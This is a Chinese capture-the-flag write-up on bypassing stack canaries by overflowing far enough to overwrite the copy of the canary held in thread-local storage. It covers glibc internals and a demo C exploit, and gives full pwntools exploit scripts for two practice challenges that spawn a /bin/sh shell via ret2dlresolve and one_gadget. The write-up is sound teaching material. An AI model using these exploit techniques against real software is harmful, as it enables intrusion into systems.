







# TLS_bypass_Canary - 先知社区

TLS\_bypass\_Canary

- - -

## 前言

好久没学习PWN咯，在刷题的时候正好遇到这种打法了，感觉CTFwiki上写的太简略了，在学习的过程中还是比较艰难的，这里记录一下我的学习过程。

## 基础知识

CTFwiki上是这么定义这个打法的

```plain
已知 Canary 储存在 TLS 中，在函数返回前会使用这个值进行对比。当溢出尺寸较大时，可以同时覆盖栈上储存的 Canary 和 TLS 储存的 Canary 实现绕过。
```

我觉得这个有点难以理解，我认为，可以先从什么是TLS(Thread Local Storage)上开始学习

这里参考一下[oss-security - New bypass and protection techniques for ASLR on Linux (openwall.com)](https://www.openwall.com/lists/oss-security/2018/02/27/5)

```plain
线程局部存储（Thread Local Storage）是一种机制，通过该机制分配变量，以便每一个现存的线程都有一个变量实例。
它主要是为了避免多个线程同时访存同一全局变量或者静态变量时所导致的冲突，尤其是多个线程同时需要修改这一变量时。为了解决这个问题，我们可以通过TLS机制，为每一个使用该全局变量的线程都提供一个变量值的副本，每一个线程均可以独立地改变自己的副本，而不会和其它线程的副本冲突。从线程的角度看，就好像每一个线程都完全拥有该变量。而从全局变量的角度上来看，就好像一个全局变量被克隆成了多份副本，而每一份副本都可以被一个线程独立地改变。
```

这个机制在不同的架构和操作系统上的实现不同，本例实现在x86-64，glibc。  
在本例中,mmap也被用来创建线程，这意味着如果TLS接近vulnerable object，它可能会被修改。  
有趣的是，在glibc实现中，TLS被指向一个segment register fs(x86-64上)，它的结构tcbhead\_t定义如下：

```plain
typedef struct
{
  void *tcb;        /* Pointer to the TCB.  Not necessarily the
               thread descriptor used by libpthread.  */
  dtv_t *dtv;
  void *self;       /* Pointer to the thread descriptor.  */
  int multiple_threads;
  int gscope_flag;
  uintptr_t sysinfo;
  uintptr_t stack_guard;
  uintptr_t pointer_guard;
  ...
} tcbhead_t;
```

它包括了stack\_guard，即被称作canary的随机数，用来防止栈溢出。  
它的工作模式是：当一个函数被调用，canary从tcbhead\_t.stack\_guard被放到栈上。在函数调用结束的时候，栈上的值被和tcbhead\_t.stack\_guard比较，如果两个值是不相等的，程序将会返回error并且终止。  
研究表明，glibc在TLS实现上存在问题，线程在pthread\_create的帮助下创建，然后需要给这个新线程选择TLS。  
在为栈分配内存后，glibc在内存的高地址初始化TLS，在x86-64架构上，栈向下增长，将TLS放在栈顶部。  
从TLS中减去一个特定的常量值，我们得到被新线程的stack register所使用的值。  
从TLS到pthread\_create的函数参数传递栈帧的距离小于一页。  
现在攻击者将不需要得到leak canary的值，而是直接栈溢出足够多的数据来复写TLS中的tcbhead\_t.stack\_guard的值，从而bypass canary。

举个例子

```plain
void pwn_payload() {
    char *argv[2] = {"/bin/sh", 0};
    execve(argv[0], argv, 0);
}

int fixup = 0;
void * first(void *x)
{
    unsigned long *addr;
    arch_prctl(ARCH_GET_FS, &addr);
    printf("thread FS %p\n", addr);
    printf("cookie thread: 0x%lx\n", addr[5]);
    unsigned long * frame = __builtin_frame_address(0);
    printf("stack_cookie addr %p \n", &frame[-1]);
    printf("diff : %lx\n", (char*)addr - (char*)&frame[-1]); 
    unsigned long len =(unsigned long)( (char*)addr - (char*)&frame[-1]) + 
fixup;
    // example of exploitation
    // prepare exploit
    void *exploit = malloc(len);
    memset(exploit, 0x41, len);
    void *ptr = &pwn_payload;
    memcpy((char*)exploit + 16, &ptr, 8);
    // exact stack-buffer overflow example
    memcpy(&frame[-1], exploit, len);
    return 0;
}

int main(int argc, char **argv, char **envp)
{
    pthread_t one;
    unsigned long *addr;
    void *val;
    arch_prctl(ARCH_GET_FS, &addr);
    if (argc > 1)
        fixup = 0x30;
    printf("main FS %p\n", addr);
    printf("cookie main: 0x%lx\n", addr[5]);
    pthread_create(&one, NULL, &first, 0);
    pthread_join(one,&val);
    return 0;
}
```

```plain
在当前栈帧和TCB结构之间的距离等于0x7b8,小于一页,只要溢出的字节够多，就可以把TCB中的tcbhead_t.stack_guard覆盖掉。
```

### 利用前提

-   溢出字节够大，通常至少一个page（4K）
    
-   创建一个线程，在线程内栈溢出
    

### 利用原理

这里我就说一下TLS和canary的关系，也就是我们运用这个方法的**利用原理**

某一些程序在设定的时候会创建线程，因此会顺便创建一个TLS，而且这个TLS会存储Canary的值，而TLS会保存在stack高地址的地方，如果通过栈溢出的字节足够大，就可以溢出到TLS结构体，因此就可以知道canary的值了，从而进行bypass

先说一下开启Canary的stack结构

```plain
High   Address |                 |
                +-----------------+
                | args            |
                +-----------------+
                | return address  |
                +-----------------+
        rbp =>  | old ebp         |
                +-----------------+
      rbp-8 =>  | canary value    |
                +-----------------+
                | 局部变量          |
Low      Address|                 |
```

当程序启用 Canary 编译后，在函数序言部分会取 fs 寄存器 0x28 处的值，存放在栈中 % ebp-0x8 的位置。 这个操作即为向栈中插入 Canary 值，代码如下:

```plain
mov    rax, qword ptr fs:[0x28]
mov    qword ptr [rbp - 8], rax
```

在函数返回之前，会将该值取出，并与 fs:0x28 的值进行异或。如果异或的结果为 0, 说明 Canary 未被修改，函数会正常返回，这个操作即为检测是否发生栈溢出。

```plain
mov    rdx, QWORD PTR [rbp-0x8]
xor    rdx, QWORD PTR fs:0x28
je     0x4005d7 <main+65>
call   0x400460 <__stack_chk_fail@plt>
```

如果 Canary 已经被非法修改，此时程序流程会走到 `__stack_chk_fail`。`__stack_chk_fail` 也是位于 glibc 中的函数，默认情况下经过 ELF 的延迟绑定，定义如下。

```plain
eglibc-2.19/debug/stack_chk_fail.c

void __attribute__ ((noreturn)) __stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}

void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",                    msg, __libc_argv[0] ?: "<unknown>");
}
```

这意味可以通过劫持 `__stack_chk_fail` 的 got 值劫持流程或者利用 `__stack_chk_fail` 泄漏内容 (参见 stack smash)。

进一步，对于 Linux 来说，fs 寄存器实际指向的是当前栈的 TLS 结构，fs:0x28 指向的正是 stack\_guard。

```plain
typedef struct
{
  void *tcb;        /* Pointer to the TCB.  Not necessarily the
                       thread descriptor used by libpthread.  */
  dtv_t *dtv;
  void *self;       /* Pointer to the thread descriptor.  */
  int multiple_threads;
  uintptr_t sysinfo;
  uintptr_t stack_guard;
  ...
} tcbhead_t;
```

如果存在溢出可以覆盖位于 TLS 中保存的 Canary 值那么就可以实现绕过保护机制。

事实上，TLS 中的值由函数 `security_init` 进行初始化。

```plain
static void
security_init (void)
{
  // _dl_random的值在进入这个函数的时候就已经由kernel写入.
  // glibc直接使用了_dl_random的值并没有给赋值
  // 如果不采用这种模式, glibc也可以自己产生随机数

  //将_dl_random的最后一个字节设置为0x0
  uintptr_t stack_chk_guard = _dl_setup_stack_chk_guard (_dl_random);

  // 设置Canary的值到TLS中
  THREAD_SET_STACK_GUARD (stack_chk_guard);

  _dl_random = NULL;
}

//THREAD_SET_STACK_GUARD宏用于设置TLS
#define THREAD_SET_STACK_GUARD(value) \
  THREAD_SETMEM (THREAD_SELF, header.stack_guard, value)
```

我们可以编译一个简单的程序，进而更直观的认识一下canary的结构

```plain
#include <stdio.h>
#include <string.h>

void ccc(char *input) {
    char buf[256];
    strcpy(buf, input);
    printf("%s", buf);
}

int main() {
    ccc("canary!!!");
    return 0;
}
```

gcc编译一下

```plain
gcc canary.c -o canary -fno-stack-protector
```

checksec看一下

[](https://xzfile.aliyuncs.com/media/upload/picture/20231119164222-8ead76f6-86b7-1.png)

看一下未开启canary的ccc函数汇编语言

```plain
.text:0000000000001169 ; __unwind {
.text:0000000000001169                 endbr64
.text:000000000000116D                 push    rbp
.text:000000000000116E                 mov     rbp, rsp
.text:0000000000001171                 sub     rsp, 110h
.text:0000000000001178                 mov     [rbp+src], rdi
.text:000000000000117F                 mov     rdx, [rbp+src]
.text:0000000000001186                 lea     rax, [rbp+dest]
.text:000000000000118D                 mov     rsi, rdx        ; src
.text:0000000000001190                 mov     rdi, rax        ; dest
.text:0000000000001193                 call    _strcpy
.text:0000000000001198                 lea     rax, [rbp+dest]
.text:000000000000119F                 mov     rsi, rax
.text:00000000000011A2                 lea     rdi, format     ; "%s"
.text:00000000000011A9                 mov     eax, 0
.text:00000000000011AE                 call    _printf
.text:00000000000011B3                 nop
.text:00000000000011B4                 leave
.text:00000000000011B5                 retn
.text:00000000000011B5 ; } // starts at 1169
.text:00000000000011B5 ccc             endp
.text:00000000000011B5
.text:00000000000011B6
```

之后开启canary，看一下ccc的汇编代码

```plain
gcc canary.c -o canary -fstack-protector-all
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231119164229-92f2fbfa-86b7-1.png)

```plain
text:0000000000001189 ; __unwind {
.text:0000000000001189                 endbr64
.text:000000000000118D                 push    rbp
.text:000000000000118E                 mov     rbp, rsp
.text:0000000000001191                 sub     rsp, 120h
.text:0000000000001198                 mov     [rbp+src], rdi
.text:000000000000119F                 mov     rax, fs:28h
.text:00000000000011A8                 mov     [rbp+var_8], rax
.text:00000000000011AC                 xor     eax, eax
.text:00000000000011AE                 mov     rdx, [rbp+src]
.text:00000000000011B5                 lea     rax, [rbp+dest]
.text:00000000000011BC                 mov     rsi, rdx        ; src
.text:00000000000011BF                 mov     rdi, rax        ; dest
.text:00000000000011C2                 call    _strcpy
.text:00000000000011C7                 lea     rax, [rbp+dest]
.text:00000000000011CE                 mov     rsi, rax
.text:00000000000011D1                 lea     rdi, format     ; "%s"
.text:00000000000011D8                 mov     eax, 0
.text:00000000000011DD                 call    _printf
.text:00000000000011E2                 nop
.text:00000000000011E3                 mov     rax, [rbp+var_8]
.text:00000000000011E7                 xor     rax, fs:28h
.text:00000000000011F0                 jz      short locret_11F7
.text:00000000000011F2                 call    ___stack_chk_fail
.text:00000000000011F7
.text:00000000000011F7 locret_11F7:                            ; CODE XREF: ccc+67↑j
.text:00000000000011F7                 leave
.text:00000000000011F8                 retn
.text:00000000000011F8 ; } // starts at 1189
.text:00000000000011F8 ccc             endp
.text:00000000000011F8
```

可以看到，最后call了\_\_\_stack\_chk\_fail，用来判断canary的值是否存在变化

对比一下，发现开启了canary保护之后，程序插入了

```plain
mov     rax, fs:28h
mov     [rbp+var_8], rax
......
mov     rax, [rbp+var_8]
xor     rax, fs:28h
jz      short locret_764
call    ___stack_chk_fail
```

现在大家对于canary的结构也有了一定了解，下面会结合一些赛题，为大家解答如何通过劫持TLS进行bypass，canary保护的

## 例题

### gyctf\_2020\_bfnote

**checksec**

[](https://xzfile.aliyuncs.com/media/upload/picture/20231119164236-96b664e8-86b7-1.png)

**IDA**

**main()**

```plain
unsigned int __cdecl main()
{
  int i; // [esp+4h] [ebp-54h]
  int size; // [esp+8h] [ebp-50h]
  char *v3; // [esp+Ch] [ebp-4Ch]
  int v4; // [esp+14h] [ebp-44h]
  char s[50]; // [esp+1Ah] [ebp-3Eh] BYREF
  unsigned int v6; // [esp+4Ch] [ebp-Ch]

  v6 = __readgsdword(0x14u);
  sub_80486F7();
  fwrite("\nGive your description : ", 1u, 25u, stdout);
  memset(s, 0, sizeof(s));
  sub_804869C(0, s, 1536);
  fwrite("Give your postscript : ", 1u, 0x17u, stdout);
  memset(&unk_804A060, 0, 0x64u);
  sub_804869C(0, &unk_804A060, 1536);
  fwrite("\nGive your notebook size : ", 1u, 0x1Bu, stdout);
  size = sub_8048656();
  v3 = (char *)malloc(size);
  memset(v3, 0, size);
  fwrite("Give your title size : ", 1u, 0x17u, stdout);
  v4 = sub_8048656();
  for ( i = v4; size - 32 < i; i = sub_8048656() )
    fwrite("invalid ! please re-enter :\n", 1u, 0x1Cu, stdout);
  fwrite("\nGive your title : ", 1u, 0x13u, stdout);
  sub_804869C(0, v3, i);
  fwrite("Give your note : ", 1u, 0x11u, stdout);
  read(0, &v3[v4 + 16], size - v4 - 16);
  fwrite("\nnow , check your notebook :\n", 1u, 0x1Du, stdout);
  fprintf(stdout, "title : %s", v3);
  fprintf(stdout, "note : %s", &v3[v4 + 16]);
  return __readgsdword(0x14u) ^ v6;
}
```

**sub\_804869C()**

这里IDA没有编译出来，其实是read()

```plain
ssize_t __cdecl sub_804869C(int a1, void *a2, signed int a3)
{
  if ( a3 < 0 )
    exit(0);
  return read(a1, a2, a3);
}
```

**sub\_8048656()**

```plain
int sub_8048656()
{
  char buf[8]; // [esp+4h] [ebp-14h] BYREF
  unsigned int v2; // [esp+Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);
  read(0, buf, 8u);
  return atol(buf);
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231119164249-9eead0c2-86b7-1.png)

这里理清一下思路

-   第一个框，是用来打栈溢出的，而且溢出字节还很大，溢出字节符合TLS劫持bypass的前提了
    
-   第二个框，是用来写shellcode，因为**unk\_804A060**是在bss段的
    

[](https://xzfile.aliyuncs.com/media/upload/picture/20231119164321-b1ed6dba-86b7-1.png)

-   第三个框，没有对大小进行限制
-   第四个框，数组索引无限制

分析了一波，有思路了

-   先打一个栈迁移，将栈迁移到bss段
-   向bss输入的数据作用是修改atoi的got表
-   劫持TLS修改canary，从而绕过canary

exp:

```plain
#coding=utf-8 
import os
import sys
import time
from pwn import *
from ctypes import *

context.log_level='debug'
context.arch='i386'

p=remote('node4.buuoj.cn',27376)
#p=process('./pwn')
elf = ELF('./pwn')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')

s       = lambda data               :p.send(data)
ss      = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
    gdb.attach(p)
    pause()


bss=0x0804A060
lea_ret=0x08048977
inc_ebp=0x08048434

read_plt=0x08048470
read_got=elf.got['read']
leak('read_got',read_got)

plt0 = elf.get_section_by_name('.plt').header.sh_addr
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

base_stage = elf.bss() + 0x420
payload = 'a'*0x3A + p32(elf.bss()+0x420 +4)


sa('Give your description : ',payload)
fake_sym_addr = base_stage + 24
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
fake_sym_addr = fake_sym_addr + align
index_dynsym = (fake_sym_addr - dynsym) / 0x10
st_name = fake_sym_addr + 0x10 - dynstr
fake_read_sym = flat([st_name, 0, 0, 0x12])
index_offset = base_stage + 16 - rel_plt
r_info = (index_dynsym << 8) | 0x7 

fake_read_reloc = flat([read_got, r_info])

payload = '\x00'*0x400
payload += p32(plt0)
payload += p32(index_offset)
payload += 'aaaa'
payload += p32(base_stage + 80) 
payload += fake_read_reloc
payload += 'a'*align
payload += fake_read_sym
payload += 'system\x00'
payload += 'a' * (80 + 0x400-len(payload))
payload += '/bin/sh\x00'
payload += 'U'*(100 - len(payload))
sa('Give your postscript : ',payload)
sla('Give your notebook size : ',str(1024*130))
overflow_len = 0x216FC
sla('Give your title size : ',str(overflow_len))
sla('invalid ! please re-enter :','1')
sa('Give your title : ','a')
sa('Give your note : ','a'*4)
itr()
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231119164335-ba1acadc-86b7-1.png)

### starctf2018\_babystack

**checksec**

[](https://xzfile.aliyuncs.com/media/upload/picture/20231119164338-bbeb77a8-86b7-1.png)

**IDA**

main()

```plain
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  pthread_t newthread[2]; // [rsp+0h] [rbp-10h] BYREF

  newthread[1] = __readfsqword(0x28u);
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  puts(byte_400C96);
  puts(" #   #    ####    #####  ######");
  puts("  # #    #    #     #    #");
  puts("### ###  #          #    #####");
  puts("  # #    #          #    #");
  puts(" #   #   #    #     #    #");
  puts("          ####      #    #");
  puts(byte_400C96);
  pthread_create(newthread, 0LL, start_routine, 0LL);
  if ( pthread_join(newthread[0], 0LL) )
  {
    puts("exit failure");
    return 1LL;
  }
  else
  {
    puts("Bye bye");
    return 0LL;
  }
}
```

start\_routine()

```plain
void *__fastcall start_routine(void *a1)
{
  unsigned __int64 v2; // [rsp+8h] [rbp-1018h]
  char s[4104]; // [rsp+10h] [rbp-1010h] BYREF
  unsigned __int64 v4; // [rsp+1018h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  memset(s, 0, 0x1000uLL);
  puts("Welcome to babystack 2018!");
  puts("How many bytes do you want to send?");
  v2 = sub_400906();
  if ( v2 <= 0x10000 )
  {
    sub_400957(0LL, s, v2);
    puts("It's time to say goodbye.");
  }
  else
  {
    puts("You are greedy!");
  }
  return 0LL;
}
```

分析一下思路

-   栈溢出控制返回地址执行一个puts泄露libc地址，一个read，控制canary
-   向bss段写入onegadget地址

exp:

```plain
#coding=utf-8 
import os
import sys
import time
from pwn import *
from ctypes import *

context.log_level='debug'
context.arch='amd64'

p=remote("node4.buuoj.cn",26732)
#p=process('./pwn')
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

s       = lambda data               :p.send(data)
ss      = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
    gdb.attach(p)
    pause()

rdi=0x0000000000401363
ret=0x000000000040101a
rsi=0x0000000000401361
bss=0x404000+0x500
levae=0x4011FF

puts_p=0x00000000004007C0
leak('puts_p',puts_p)
puts_g=elf.got['puts']
leak('puts_g',puts_g)

payload1=b'\x00'*0x30+p64(bss-0x8)+p64(rdi)+p64(puts_g)+p64(puts_p)+p64(levae)
payload1=payload1.ljust(0x950,b'\x00')
sl(payload1)

ru('\n')
leak=u64(r(6)+b'\x00'*2)-libc.symbols['puts']
p.sendline(b'\x00'*0x30+p64(1)+p64(leak+0xe6c81))
itr()
'''
onegadget
0xe6c7e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe6c81 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe6c84 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
'''
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231119164349-c25367fe-86b7-1.png)

# 参考

[oss-security - New bypass and protection techniques for ASLR on Linux (openwall.com)](https://www.openwall.com/lists/oss-security/2018/02/27/5)

\[Canary - CTF Wiki (ctf-wiki.org)
